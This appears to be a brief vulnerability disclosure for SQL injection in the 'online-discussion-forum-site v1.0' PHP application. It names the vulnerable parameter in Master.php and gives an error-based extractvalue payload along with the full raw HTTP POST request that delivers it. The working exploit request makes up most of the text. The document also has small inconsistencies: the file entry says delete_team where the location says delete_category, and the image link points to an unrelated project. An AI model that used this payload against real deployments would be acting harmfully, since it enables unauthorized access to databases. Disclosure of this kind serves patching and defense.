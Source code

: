 # online-discussion-forum-site v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /odfs/classes/Master.php?f=delete_team

Vulnerability location:/odfs/classes/Master.php?f=delete_category, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/odfs/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/odfs/admin/?page=categories
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

